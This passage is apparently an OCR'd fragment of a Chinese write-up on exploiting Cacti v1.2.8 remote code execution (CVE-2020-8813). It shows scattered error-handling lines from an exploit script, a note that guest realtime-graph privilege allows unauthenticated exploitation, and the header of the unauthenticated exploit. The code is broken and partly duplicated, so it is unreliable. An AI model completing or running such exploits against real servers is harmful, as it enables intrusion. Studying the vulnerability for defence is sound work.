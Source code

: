 ```
else:

print("[-]Error while activating the malicous account")

```
 else:
        print("[-] Unable to retrieve CSRF token from admin page!")
        exit()

else:
    print("[-]Cannot Login!") 
``` `else:

print("[-] Unable to retrieve CSRF token!")

exit()` 
```

运行漏洞利用代码后，我们将获得以下内容：

![image](../img/843e24cae54166a12e2b8d8b049b31e3.png)

### 未经身份验证的利用

如果Cacti启用了“来宾实时图”特权，则无需身份验证即可利用此漏洞，因此在这种情况下，不需要身份验证部分，您可以使用以下代码来利用此漏洞：

```
#!/usr/bin/python3

# Exploit title: "Cacti v1.2.8 Unauthenticated Remote Code Execution"

# Date: 03/02/2020

# Exploit Author: Askar (@mohammadaskar2)

# CVE: CVE-2020-8813

# Vendor Homepage: [https://cacti.net/](https://cacti.net/)

# Version: v1.2.8

# Tested on: CentOS 7.3 / PHP 7.1.33

```